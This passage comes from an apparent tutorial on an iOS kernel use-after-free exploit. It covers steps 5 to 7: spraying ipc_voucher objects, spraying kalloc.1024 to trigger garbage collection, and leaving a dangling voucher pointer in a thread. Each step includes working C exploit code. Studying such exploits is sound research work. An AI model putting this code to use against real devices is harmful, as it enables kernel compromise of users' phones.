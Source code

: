 
The callback function is used to update the pipe buffer and overwrite it with **ipc_port** structs.

#### Step 5: Spray the Heap with Vouchers

Next, we spray the heap with Vouchers. And also choose one voucher port that will be eventually freed and call it **uaf_voucher_port**. As discussed in the previous article, memory is taken from the zone map in blocks. The size of a block is fixed for a particular object for a particular version (**0x4000** for **ipc_voucher** for **iPhone11,8 16C50**). Since the voucher size is also fixed (**0x50**), the number of voucher objects in a block is also fixed (**0x4000/0x50 = 80**) The idea is to allocate extra blocks where the voucher that we will free eventually (**uaf_voucher_port**) will be stored. The first **300** vouchers are basically to fill up the initial holes. And then we spray vouchers to take up about **16** blocks, where we plan to put our freed voucher in the target block (Block 7-10). These blocks will then be used for overlapping with OOL port pointers as we will see later.

{% highlight c %}
    // 5\. Spray IPC vouchers. After we trigger the vulnerability to get a dangling voucher
    	// pointer, we can trigger zone garbage collection and get them reallocated with our OOL
    	// ports spray.
    	//
    	// Assume we'll need 300 early vouchers, 6 transition blocks, 4 target block, and 6 late
    	// blocks.
    	const size_t voucher_spray_count = 300 + (6 + 4 + 6) * COUNT_PER_BLOCK(ipc_voucher);
    	const size_t uaf_voucher_index = voucher_spray_count - 8 * COUNT_PER_BLOCK(ipc_voucher);
    	mach_port_t *voucher_ports = voucher_spray(voucher_spray_count);
    	INFO("created %zu vouchers", voucher_spray_count);
    	mach_port_t uaf_voucher_port = voucher_ports[uaf_voucher_index];
{% endhighlight %}
#### Step 6: More Spraying

Next, we spray some more memory using the ports we created earlier. This can be later freed to prompt garbage collection. If you remember we had created filler ports and bumped the queue limit on the first **2000** ports. In this case, the first **500** ports are being used for spraying again.

{% highlight c %}
    // 6\. Spray 15% of memory (400MB on the iPhone XR) in kalloc.1024 that we can free later to
    	// prompt gc. We'll reuse some of the early ports from the port spray above for this.
    	const size_t gc_spray_size = 0.15 * platform.memory_size;
    	mach_port_t *gc_ports = filler_ports;
    	size_t gc_port_count = 500;		// Use at most 500 ports for the spray.
    	sprayed_size = kalloc_spray_size(gc_ports, &gc_port_count, 768+1, 1024, gc_spray_size);
    	INFO("sprayed %zu bytes to %zu ports in kalloc.%u", sprayed_size, gc_port_count, 1024);
{% endhighlight %}

#### Step 7: Store a pointer to the voucher but release the reference

{% highlight c %}
    // 7\. Stash a pointer to an ipc_voucher in the thread's ith_voucher field and then remove
    	// the added reference. That way, when we deallocate the voucher ports later, we'll be left
    	// with a dangling voucher pointer in ith_voucher.
    	kr = thread_set_mach_voucher(thread, uaf_voucher_port);
    	assert(kr == KERN_SUCCESS);
    	voucher_release(uaf_voucher_port);
    	INFO("stashed voucher pointer in thread");	
{% endhighlight %}

